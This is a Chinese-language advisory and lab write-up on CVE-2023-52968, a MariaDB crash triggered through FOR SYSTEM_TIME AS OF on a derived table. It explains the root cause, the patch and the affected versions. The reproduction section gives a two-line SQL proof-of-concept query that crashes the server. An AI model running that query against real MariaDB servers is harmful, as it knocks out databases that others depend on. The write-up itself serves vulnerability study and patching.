



# CVE-2023-52968 CWE-696 MariaDB 拒绝服务

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **系统版本控制：**MariaDB 提供的一种功能，可以自动记录表中数据的历史变更。当更新或删除一行数据时，旧版本的数据不会被物理删除，而是被保存到一个历史表中。它允许查询表在过去某个特定时间点的状态，就像查看文档的历史版本一样。其中的`FOR SYSTEM_TIME AS OF <timestamp>`语法表示查询某一时刻的数据快照。
- **CWE-696（ Incorrect Behavior Order）：**不正确的行为次序，是一种软件安全弱点，指软件在执行多个相互关联的操作时，操作顺序错误，可能引发安全问题，如数据泄露、系统崩溃或权限提升等，常见于文件操作、权限验证等场景。

## 漏洞原理


在 MariaDB 执行查询时，必须先完成派生表（`derived table`）的准备工作，之后才能访问其中的字段。漏洞发生在 `mysql_derived_prepare()` 尚未完成时：`fix_fields_if_needed()` 调用了 `find_field_in_table()`，但派生表结构仍未准备就绪，字段元数据不完整，最终导致空指针访问。

## 漏洞定位

在 **sql\table.cc** 文件，第 **10382** 行，`Vers_history_point`是 MariaDB 中表示系统版本快照点（version history point） 的类，用于处理`FOR SYSTEM_TIME AS OF ... `子句。

其中第 **10386** 行，调用`fix_fields_if_needed`方法来解析字段依赖、绑定表达式的字段类型，在需要的时候尝试修复字段。但是没有检查 `item` 是否是从一个未准备好的派生表中的引用字段，如果`item`来自尚未准备好的派生表，调用`fix_fields_if_needed()` 函数则会访问未初始化的结构，错误地认为自己需要去查找一个字段。这是**漏洞点**所在。

最终会调用到 find_field_in_table 函数。此时，传递给这个函数的“表信息”参数，正是那个未准备好的、指向空指针的派生表结构，导致崩溃。

```c
bool Vers_history_point::check_unit(THD *thd)
{
    // 检查是否提供时间表达式
  if (!item)
    return false;
// ***** 10386 行 ********** 如果需要则修复字段 ****************** 漏洞点 ********************
  if (item->fix_fields_if_needed(thd, &item))
    return true;
    // 获取类型处理器
  const Type_handler *t= item->this_item()->real_type_handler();
  DBUG_ASSERT(t);
    // 检查类型是否支持版本控制
  if (!t->vers())
  {
    my_error(ER_ILLEGAL_PARAMETER_DATA_TYPE_FOR_OPERATION, MYF(0),
             t->name().ptr(), "FOR SYSTEM_TIME");
    return true;
  }
  return false;
}
```

## 漏洞修复


`FOR SYSTEM_TIME AS OF ...` 的历史快照时间点不应直接引用表字段，因为每行可能得到不同的时间值，这与“整个历史快照取自同一时间点”的设计语义相冲突。字段表达式（如 `t.some_column`）通常只能在表结构准备完成后访问。补丁禁止将 `FIELD_ITEM` 直接用作快照时间点参数，只允许常量、函数等合适的表达式，从而避免在派生表准备完成前解析或绑定字段。

在 `Vers_history_point` 中调用 `fix_fields_if_needed()` 前，补丁会检查 `item` 是否为 `FIELD_ITEM`；若是，则直接返回错误。这样可以阻止直接使用表字段作为历史时间点，并切断因派生表字段尚未初始化而导致的崩溃路径。

```c
if (item->real_type() == Item::FIELD_ITEM)
{
    bad_expression_data_type_error(item->full_name());
    return true;
}
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.4.x：不高于 10.4.33
- 10.5.x：不高于 10.5.24
- 10.6.x：不高于 10.6.17
- 10.7.x 至 10.11.x：不高于 10.11.7
- 11.0.x：不高于 11.0.5
- 11.1.x：不高于 11.1.4

**影响模块：** 系统版本控制相关功能，主要涉及 `WITH SYSTEM VERSIONING` 表和 `FOR SYSTEM_TIME AS OF ...` 查询。

## 环境搭建

Docker 环境中 MariaDB 版本为 10.11.5，管理员为 root，密码为 12345，存在一个数据库 test_db。



## 漏洞复现

1. 进入容器命令行；

   ```bash
   docker exec -it mariadb-10.11.5 bash
   ```

2. 使用 root 用户连接 MariaDB 的 test_db 数据库，密码为 12345；

   ```bash
   mariadb -u root -p test_db
   ```

3. 依次执行下面两行 SQL 命令后，可以看到 MariaDB 崩溃并退出容器；

   ```sql
   CREATE TABLE t1 (i int) WITH SYSTEM VERSIONING;
   
   SELECT * FROM (SELECT 1 FROM t1) FOR system_time AS OF now ca4;
   ```

   

4. 查看容器日志，可以看到 MariaDB 服务进程（`mysqld`）收到了信号 11（SIGSEGV），即段错误（Segmentation Fault），说明程序试图访问未分配或非法的内存地址，导致崩溃。

   ```bash
   docker logs mariadb-10.11.5
   ```

   

## PoC分析

```sql
-- 建表 t1，并为 t1 表开启系统版本控制 (System Versioning) 功能
CREATE TABLE t1 ( i int) WITH SYSTEM VERSIONING ;
```

```sql
-- 触发查询，主查询的数据来源于下面的派生表
SELECT * 
FROM (
    -- 派生表，从 t1 表中为每一行返回一个常量 1
    SELECT 1 FROM t1
) 
-- 查询 t1 在当前时间点（now）的数据快照，忽略之后对表的任何修改
-- AS OF now 表示查询“现在”这个时间点的历史版本，ca4 是 FROM 子句中的派生表的一个别名
FOR system_time AS OF now ca4;
```

`SELECT 1 FROM t1` 并未选择 `t1` 中的任何真实列（没有选择 `i` 或系统列），而是 `SELECT 1`，只是用 `t1` 来构造 FROM 子句。而 `FOR SYSTEM_TIME AS OF now` 应该绑定到一个真正的表或视图，而不是派生出来的子查询。

在派生表尚未完成准备（未调用 `mysql_derived_prepare`）的情况下，MariaDB 的查询处理逻辑错误地尝试解析该派生表中的字段，导致访问未初始化的字段结构，从而在 `find_field_in_table` 中发生崩溃。

## 参考链接


[NVD - CVE-2023-52968](https://nvd.nist.gov/vuln/detail/CVE-2023-52968)

[[MDEV-32082\] Server crash in find_field_in_table - Jira](https://jira.mariadb.org/browse/MDEV-32082)

[MDEV-32082 Server crash in find_field_in_table · MariaDB/server@74883f5](https://github.com/MariaDB/server/commit/74883f5e2f4c0e09f4f4e9e272a8e5bfd91a9489#diff-c404d86b1ddf4b784225a0905d5e6c4371737dfe3af843a58ecdcd9b88c72676)
